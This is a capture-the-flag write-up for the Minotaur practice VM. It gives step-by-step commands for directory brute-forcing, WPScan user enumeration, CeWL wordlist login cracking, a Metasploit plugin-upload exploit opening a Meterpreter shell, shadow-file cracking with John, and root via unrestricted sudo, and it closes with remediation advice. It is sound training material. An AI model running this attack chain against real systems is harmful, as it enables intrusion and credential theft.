




# Sectalks: BNE0x00 — Minotaur Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.56.223 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | Read /root/flag.txt |
| **Source** | [HackingArticles](http://www.hackingarticles.in/hack-minotaur-vm-ctf-challenge/) |

## Attack Summary

Hidden WordPress installation discovered via directory brute-force, user enumerated with WPScan, custom wordlist from CeWL cracked the password, vulnerable Slideshow Gallery plugin exploited for shell, shadow file cracked, and full root via unrestricted sudo.

## Methodology

1. Recon — nmap port scan; nikto/curl initial checks
2. Enumeration — DirBuster finds `/bull/` WordPress; WPScan enumerates user `bully` and vulnerable plugin; CeWL generates custom wordlist
3. Exploitation — Metasploit `wp_slideshowgallery_upload` RCE
4. Privilege Escalation — shadow.bak crack, SSH pivot to `minotaur`, unrestricted sudo

## Step 1: Reconnaissance

```bash
nmap -sV -sC 192.168.56.223
```

Key open ports:

| Port | Service |
|---|---|
| 22/tcp | SSH (OpenSSH) |
| 80/tcp | HTTP |
| 2020/tcp | Unknown |

Initial curl and nikto against port 80 return nothing of interest.



## Step 2: Enumeration

Run DirBuster with a medium wordlist to find hidden directories:

```bash
dirb http://192.168.56.223/ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

This reveals `/bull/` hosting a WordPress blog.

Enumerate the WordPress installation with WPScan:

```bash
wpscan --url http://192.168.56.223/bull/ --enumerate u --enumerate p
```

WPScan finds the username `bully` and the **Slideshow Gallery** plugin, which is vulnerable to authenticated file upload.

The password is not in rockyou.txt. Generate a custom wordlist from the site content:

```bash
cewl http://192.168.56.223/bull/ -w custom_wordlist.txt
```

Brute-force the WordPress login via Burp Suite or WPScan:

```bash
wpscan --url http://192.168.56.223/bull/ --passwords custom_wordlist.txt --usernames bully
```

Recovered credentials: `bully:Bighornedbulls`.


## Step 3: Exploitation — WordPress Slideshow Gallery Upload

Launch Metasploit and use the Slideshow Gallery upload module:

```bash
msfconsole
use exploit/unix/webapp/wp_slideshowgallery_upload
set RHOSTS 192.168.56.223
set TARGETURI /bull/
set USERNAME bully
set PASSWORD Bighornedbulls
set LHOST <LHOST>
set LPORT <LPORT>
run
```

A Meterpreter session opens. Explore the filesystem:

```bash
ls /tmp
# flag.txt  shadow.bak
cat /tmp/flag.txt
download /tmp/shadow.bak
```



## Step 4: Credential Cracking and SSH Pivot

Crack the shadow backup with John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.bak
john --show shadow.bak
```

Recovered passwords for `heffer` and `minotaur`. SSH in as `heffer`:

```bash
ssh heffer@192.168.56.223
cat flag.txt
# Hint: check minotaur
```

SSH in as `minotaur`:

```bash
ssh minotaur@192.168.56.223
cat flag.txt
# Hint: final flag is at /root/flag.txt
```

Check sudo privileges:

```bash
sudo -l
# (ALL) ALL
```

`minotaur` has unrestricted sudo.



## Step 5: Root Flag

```bash
sudo su
cat /root/flag.txt
```



## Lessons Learned

1. Default WordPress paths are predictable but sub-directory installs (e.g., `/bull/`) can be missed without directory enumeration.
2. Passwords that are not in common wordlists are often found by generating a site-specific wordlist with CeWL.
3. Backup shadow files (`shadow.bak`) left in world-readable directories allow offline cracking of all system credentials.
4. Unrestricted sudo (`ALL`) for a regular user is a complete security boundary failure.

## Remediation

| Vulnerability | Recommended Fix |
|---|---|
| Vulnerable WordPress plugin | Update or remove Slideshow Gallery; apply least-privilege to the web user |
| Weak site-specific password | Enforce strong random passwords; do not use words from the site's own content |
| shadow.bak in /tmp | Never write shadow backups to world-readable locations; encrypt backups |
| Unrestricted sudo | Apply least-privilege sudo rules; avoid `ALL` grants |
